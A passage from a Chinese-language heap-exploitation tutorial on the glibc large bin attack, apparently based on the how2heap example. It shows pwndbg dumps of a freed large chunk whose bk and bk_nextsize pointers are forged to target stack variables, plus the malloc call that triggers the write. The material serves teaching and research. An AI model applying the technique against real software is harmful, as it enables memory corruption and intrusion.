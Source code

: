修改后：

```
pwndbg> p &stack_var1 
$6 = (unsigned long *) 0x7fffffffdc70
pwndbg> p &stack_var2 
$7 = (unsigned long *) 0x7fffffffdc78
pwndbg> x/20xg p2-2
0x603360:	0x0000000000000000	0x00000000000003f1      <-- fake p2 [be freed]
0x603370:	0x0000000000000000	0x00007fffffffdc60      <-- fd, fake bk
0x603380:	0x0000000000000000	0x00007fffffffdc58      <--     fake bk_nextsize
0x603390:	0x0000000000000000	0x0000000000000000
0x6033a0:	0x0000000000000000	0x0000000000000000
0x6033b0:	0x0000000000000000	0x0000000000000000
0x6033c0:	0x0000000000000000	0x0000000000000000
0x6033d0:	0x0000000000000000	0x0000000000000000
0x6033e0:	0x0000000000000000	0x0000000000000000
0x6033f0:	0x0000000000000000	0x0000000000000000
```

```
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x6037a0 —▸ 0x6030a0 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x6037a0
smallbins
empty
largebins
0x400 [corrupted]
FD: 0x603360 ◂— 0x0
BK: 0x603360 —▸ 0x7fffffffdc60 ◂— 0x0
```

接下来再次 malloc：

``` c++
    malloc(0x90);
 
    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
            " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);
```

被释放的第三块 large chunk 会被插入 large bin list 中。

这个过程中判断条件会进入上面整理过程的 else 分支中。判断条件是 `(unsigned long) (size) < (unsigned long) (bck->bk->size)`。
